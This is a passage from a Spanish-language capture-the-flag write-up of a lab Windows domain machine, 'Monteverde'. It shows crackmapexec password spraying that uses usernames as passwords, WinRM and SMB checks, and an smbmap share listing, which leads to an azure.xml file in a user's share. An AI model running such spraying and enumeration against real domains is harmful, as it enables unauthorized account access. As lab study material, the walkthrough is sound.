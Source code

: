 ```null
2023/03/07 08:54:54 >  Done! Tested 10 usernames (9 valid) in 0.191 seconds
```

Uno de ellos no es válido, y ninguno ASP-Roasteable. Aplico un Password Spraying, y una contraseña tomando como diccionario el nombre de usuarios es válida

```null
crackmapexec smb 10.10.10.172 -u users -p users --continue-on-success | grep "+"
SMB         10.10.10.172    445    MONTEVERDE       [+] MEGABANK.LOCAL\SABatchJobs:SABatchJobs 
```

Aunque no lo es por WiRNM

```null
rackmapexec winrm 10.10.10.172 -u 'SABatchJobs' -p 'SABatchJobs'
SMB         10.10.10.172    5985   MONTEVERDE       [*] Windows 10.0 Build 17763 (name:MONTEVERDE) (domain:MEGABANK.LOCAL)
HTTP        10.10.10.172    5985   MONTEVERDE       [*] http://10.10.10.172:5985/wsman
WINRM       10.10.10.172    5985   MONTEVERDE       [-] MEGABANK.LOCAL\SABatchJobs:SABatchJobs
```

## Puerto 445 (SMB)

Con crackmapexec, aplico un escaneo para ver dominio, hostname y versiones

```null
crackmapexec smb 10.10.10.172
SMB         10.10.10.172    445    MONTEVERDE       [*] Windows 10.0 Build 17763 x64 (name:MONTEVERDE) (domain:MEGABANK.LOCAL) (signing:True) (SMBv1:False)
```

No puedo listar los recursos compartidos haciendo uso de un null session

```null
smbmap -H 10.10.10.172 -u 'null'
[!] Authentication error on 10.10.10.172
```

Pero ya tengo credenciales

```null
smbmap -H 10.10.10.172 -u 'SABatchJobs' -p 'SABatchJobs'
                                                                                                    
[+] IP: 10.10.10.172:445	Name: megabank.local      	Status: Authenticated
	Disk                                                  	Permissions	Comment
	----                                                  	-----------	-------
	ADMIN$                                            	NO ACCESS	Remote Admin
	azure_uploads                                     	READ ONLY	
	C$                                                	NO ACCESS	Default share
	E$                                                	NO ACCESS	Default share
	IPC$                                              	READ ONLY	Remote IPC
	NETLOGON                                          	READ ONLY	Logon server share 
	SYSVOL                                            	READ ONLY	Logon server share 
	users$                                            	READ ONLY	
```

Dentro de ```users$```, en el directorio personal de ```mhope```, hay un archivo ```azure.xml```
